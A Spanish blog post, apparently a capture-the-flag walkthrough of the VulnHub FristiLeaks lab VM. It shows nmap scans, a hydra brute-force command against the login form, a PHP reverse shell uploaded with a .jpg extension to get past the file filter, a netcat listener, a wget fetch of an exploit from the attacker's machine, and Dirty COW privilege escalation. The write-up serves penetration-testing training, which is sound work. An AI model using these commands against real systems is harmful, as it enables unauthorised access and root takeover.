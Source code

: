 ```yaml
---
layout: post
title: Resolviendo FristiLeaks (WriteUp)
categories: WriteUp
---
```


A continuación voy a relatar el proceso que llevé a cabo para resolver la máquina virtual [FristiLeaks](https://www.vulnhub.com/entry/fristileaks-13,133/). 

### WriteUp

En primer lugar hay que identificar la dirección IP de la máquina virtual objetivo. Esto se puede realizar haciendo uso de arp-scan. En nuestro caso, la dirección IP de FristiLeaks, máquina objetivo, será **192.168.1.70.**

El primer paso dentro de la enumeración será el de ver puertos abiertos y servicios activos en ellos. Para ello hacemos uso de nmap con la instrucción “nmap -Pn -p- 192.168.1.70” para **escanear todos los puertos**. El resultado es el siguiente:

Not shown: 65534 filtered ports
PORT   STATE SERVICE
**80/tcp open  http**

Siendo este un entorno controlado y sin limitaciones ni nada que nos frenes, podríamos haber explotado al máximo la velocidad de nmap haciendo uso de la siguiente instrucción que también escaneará todos los puertos, a más velocidad y nos almacenará el resultado en un fichero llamado allPorts:

“nmap -p- -sS --min-rate 5000 --open -Pn -v -n 192.168.1.70 -oG allPorts”

El resultado que observamos es que solo hay un puerto abierto, que es el 80, por donde corre un servicio web. Para obtener más información sobre el servicio ejecutamos la siguiente instrucción:

 “nmap 192.168.1.70 -Pn -A --script vuln -p80”

Esto nos devuelve que está corriendo la siguiente versión de Apache:

“Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)”

Sobre el sistema operativo nos indica lo siguiente:

```
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13
```

Y el script http-enum de nmap no indica la siguiente información interesante:
```
| http-enum:
|   /robots.txt: Robots file
|   /icons/: Potentially interesting folder w/ directory listing
|_  /images/: Potentially interesting folder w/ directory listing
```

Mientras esto se ejecutaba, por otro lado, se le echa un vistazo rápido a la página web comprobando si dispone de sitemap o robots y **encontramos un robots.txt con la siguiente información:**

```
User-agent: *
Disallow: /cola
Disallow: /sisi
Disallow: /beer
```

Paso a buscar vulnerabilidades y exploits disponibles para la versión 2.2.15 de Apache. Primero a través de la herramienta **searchsploit**, y encuentro lo siguiente:
Apache 2.2.15 mod_proxy - Reverse Proxy Security Bypass

También revisamos la información de vulnerabilidades que tiene registrado **cvedetails.com**, qué son las siguientes: [https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-93077/Apache-Http-Server-2.2.15.html](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-93077/Apache-Http-Server-2.2.15.html)

Teniendo también vulnerabilidades concretas y explotables desde Metasploit:
[https://www.cvedetails.com/metasploit-modules/version-93077/Apache-Http-Server-2.2.15.html](https://www.cvedetails.com/metasploit-modules/version-93077/Apache-Http-Server-2.2.15.html).

Los siguientes pasos que llevamos a cabo, sin mucho éxito, son el escaneo del contenido de la página web haciendo uso de DirBuster y un diccionario de directorios, un escaneo de puertos UDP y la revisión de la carpeta “images” detectada anteriormente, la cual solo contiene fotos de Obi-Wan.

El siguiente paso es hacer un reconocimiento de directorios y contenidos de la página web pero más concreto y específico. Para ello hago uso de **CeWL** con la idea de generar un diccionario de palabras que aparezcan en la página web para usarla con DirBuster. Para ello, hago uso del siguiente comando:

**cewl --write fristileaks_words.txt --meta 192.168.1.70**

Y a dicho diccionario generado **le agrego manualmente las palabras encontradas en las imágenes de la página web**, que son las siguientes: keep, calm, drink, fristi, url, looking.

Ahora sí, haciendo uso de DirBuster **se encuentra una carpeta llamada fristi.** En esta ruta hay un panel de administración con un login. 

Pruebo con algunas **inyecciones SQL básicas y contraseñas típicas pero no funciona.** Además, el **mensaje de error devuelto es genérico** (fallo en la contraseña o el usuario) por lo que no podemos usar el panel para averiguar nombres de usuario. 

Paso a **analizar el código de la web.** Para comenzar me llama la atención la imagen, puesto que esta **imagen no está listada en la carpeta** /images/. En el código indica, como comentario, que **se utiliza base64 encoding para cargar la imagen.** 

Después del código de la imagen hay un **código similar comentado, lo introduzco en un decodificador base64 online y me indica que es una imagen PNG** pero no me la muestra. Con las propias **herramientas del navegador** modifico el código de la web cambiando el código base64 de la imagen original por la nueva, y **me devuelve la siguiente imagen**:

![FristiLeaks 01]({{ site.baseurl }}/images/fristileaks01.png)

Vemos que nos devuelve la frase **keKkeKKeKKeKkEkkEk.**
La pruebo con admin, fristi y algunas cosas más pero no hay éxito.

Con **CeWL** genero un **nuevo diccionario** de la web del panel de administración. 
**Combino el diccionario que tenía anteriormente con el nuevo, además le agrego al diccionario la palabra de la imagen** y limpio un poco el segundo diccionario que, a causa de la forma de cargar las imágenes usando encode base64, estaba lleno de strings sin sentido. 

Mi idea es utilizar **hydra para realizar fuerza bruta usando este diccionario como nombre de usuario y como contraseña.** Para ello, haciendo uso de las herramientas del navegador, compruebo que el usuario y la contraseña se comprueban con un POST hacia http://192.168.1.70/fristi/checklogin.php y anoto las tres variables que se les pasa (myusername, mypassword y Submit).

Con esta información construyo el siguiente comando de hydra:

```
hydra 192.168.1.70 http-form-post "/fristi/checklogin.php:myusername=^USER^&mypassword=^PASS^&Submit=Login:Wrong Username or Password" -L  /home/vant/Escritorio/Pruebas/fristileaks_words.txt -P /home/vant/Escritorio/Pruebas/fristileaks_words.txt
```
Dando el siguiente resultado:

![FristiLeaks 02]({{ site.baseurl }}/images/fristileaks02.png)

Podemos ver que se realizan 10201 intentos de iniciar sesión y **se encuentra un acceso válido con el nombre de usuario eezeepz y la contraseña keKkeKKeKKeKkEkkEk.**

Entro en el panel de administración y me muestra la **opción de subir ficheros.** Lo primero que intento es subir una reverse shell en PHP directamente, pero el servidor no me deja, me dice lo siguiente:
“Sorry, is not a valid file. Only allowed are: png,jpg,gif
Sorry, file not uploaded”

Pruebo a **renombrar el fichero poniéndole en el final .jpg. El servidor se lo traga y el fichero es subido, mostrándome lo siguiente:**
“Uploading, please wait
The file has been uploaded to /uploads”.

En la reverse shell definí mi IP y el puerto al que tendrá que conectarse. Por lo que antes de ejecutarla abro un netcat en mi ordenador con el siguiente comando **“nc -nlvp 1234”** siendo 1234 dicho puerto definido en la reverse shell. Lo dejo en escucha y **abro en el navegador el siguiente enlace:** http://192.168.1.70/fristi/uploads/php-reverse-shell.php.jpg 

Se establece la conexión y ya estaríamos dentro de la máquina objetivo:

![FristiLeaks 03]({{ site.baseurl }}/images/fristileaks03.png)

Con “whoami” podemos comprobar que **estamos dentro con el usuario “apache”, por lo que necesitamos una escalada de privilegios.** Para realizar la escalada de privilegios hay muchas cosas que se pueden analizar, existen herramientas como [LinEnum](https://github.com/rebootuser/LinEnum) que ayudan a realizar este análisis. En esta ocasión no es necesaria tanta profundidad. Simplemente **comprobamos con “uname -a” la versión del kernel, la cual es la 2.6.32-573.8.1.el6.x86_64.**

Buscamos en Google exploits de escalada de privilegios para esta versión de kernel, y encuentro el siguiente exploit en ExploitDB: [https://www.exploit-db.com/exploits/10018](https://www.exploit-db.com/exploits/10018).

Una vez descargado en local tenemos que subir dicho exploit a la máquina objetivo. Para eso, me monto un servidor en mi equipo haciendo uso de **SimpleHTTPServer** con la siguiente instrucción: python -m SimpleHTTPServer 8000

**En la máquina objetivo nos descargamos el fichero** en la carpeta /tmp haciendo uso de curl o wget, por ejemplo de la siguiente forma: “wget 192.168.1.45:8000/10018.sh”. Siendo la dirección IP la de la máquina atacante donde tenemos activo el servidor de SimpleHTTPServer. 

Este exploit no consigue su objetivo, no funciona. **Después de probar varios exploits sin éxito llego a un exploit que ataca la vulnerabilidad Dirty COW, el exploit es el siguiente: [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c).
Lo subo a la carpeta /tmp tal como expliqué antes y lo compilo siguiendo las instrucciones que se indican en el propio exploit, es decir, con **“gcc -pthread dirty.c -o dirty -lcrypt”**

Una vez compilado lo ejecuto, le introduzco una contraseña y, después de algunos minutos, termina su ejecución. 

**Esto te genera un usuario llamado firefart con la contraseña introducida con permisos de root:**

![FristiLeaks 04]({{ site.baseurl }}/images/fristileaks04.png)

De esta forma ya podríamos acceder a la flag:

![FristiLeaks 05]({{ site.baseurl }}/images/fristileaks05.png)
